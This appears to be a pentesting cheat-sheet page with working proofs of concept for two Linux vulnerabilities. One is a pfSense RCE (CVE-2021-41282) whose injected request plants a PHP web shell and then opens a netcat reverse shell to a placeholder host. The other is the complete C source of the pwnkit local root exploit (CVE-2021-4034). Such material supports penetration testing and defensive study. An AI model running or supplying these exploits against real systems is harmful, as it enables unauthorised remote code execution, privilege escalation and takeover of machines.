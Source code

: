 # Linux

### CVE-2021-41282 pfSense <= 2.5.2 RCE

pfSense allows authenticated users to get information about the routes set in the firewall.&#x20;

<details>

<summary>CVE-2021-41282 pfSense POC</summary>

```
Login to pfSense

http://<target>/diag_routes.php?isAjax=1&filter=.*/!d;};s/Destination/\x3c\x3fphp+system($_GET[\x22a\x22])\x3b\x3f\x3e/;w+/usr/local/www/a.php%0a%23

http://<target>/a.php?a=id

http://<target>/a.php?a=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i |nc IP PORT > /tmp/f
```

</details>

### CVE-2021-4034 pwnkit LPE

Linux machines works on almost all distros with pkexec on it from 2009 - January 2022.\
Compile with gcc and run as user.

<details>

<summary>CVE-2021-4034 pwnkit POC</summary>

```
/*
 * blasty-vs-pkexec.c -- by blasty <peter@haxx.in> 
 * ------------------------------------------------
 * PoC for CVE-2021-4034, shout out to Qualys
 *
 * ctf quality exploit
 *
 * bla bla irresponsible disclosure
 *
 * -- blasty // 2022-01-25
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <fcntl.h>

void fatal(char *f) {
    perror(f);
    exit(-1);
}

void compile_so() {
    FILE *f = fopen("payload.c", "wb");
    if (f == NULL) {
        fatal("fopen");
    }

    char so_code[]=
        "#include <stdio.h>\n"
        "#include <stdlib.h>\n"
        "#include <unistd.h>\n"
        "void gconv() {\n"
        "  return;\n"
        "}\n"
        "void gconv_init() {\n"
        "  setuid(0); seteuid(0); setgid(0); setegid(0);\n"
        "  static char *a_argv[] = { \"sh\", NULL };\n"
        "  static char *a_envp[] = { \"PATH=/bin:/usr/bin:/sbin\", NULL };\n"
        "  execve(\"/bin/sh\", a_argv, a_envp);\n"
        "  exit(0);\n"
        "}\n";

    fwrite(so_code, strlen(so_code), 1, f);
    fclose(f);

    system("gcc -o payload.so -shared -fPIC payload.c");
}

int main(int argc, char *argv[]) {
    struct stat st;
    char *a_argv[]={ NULL };
    char *a_envp[]={
        "lol",
        "PATH=GCONV_PATH=.",
        "LC_MESSAGES=en_US.UTF-8",
        "XAUTHORITY=../LOL",
        NULL
    };

    printf("[~] compile helper..\n");
    compile_so();

    if (stat("GCONV_PATH=.", &st) < 0) {
        if(mkdir("GCONV_PATH=.", 0777) < 0) {
            fatal("mkdir");
        }
        int fd = open("GCONV_PATH=./lol", O_CREAT|O_RDWR, 0777); 
        if (fd < 0) {
            fatal("open");
        }
        close(fd);
    }

    if (stat("lol", &st) < 0) {
        if(mkdir("lol", 0777) < 0) {
            fatal("mkdir");
        }
        FILE *fp = fopen("lol/gconv-modules", "wb");
        if(fp == NULL) {
            fatal("fopen");
        }
        fprintf(fp, "module  UTF-8//    INTERNAL    ../payload    2\n");
        fclose(fp);
    }

    printf("[~] maybe get shell now?\n");

    execve("/usr/bin/pkexec", a_argv, a_envp);
}
```

</details>
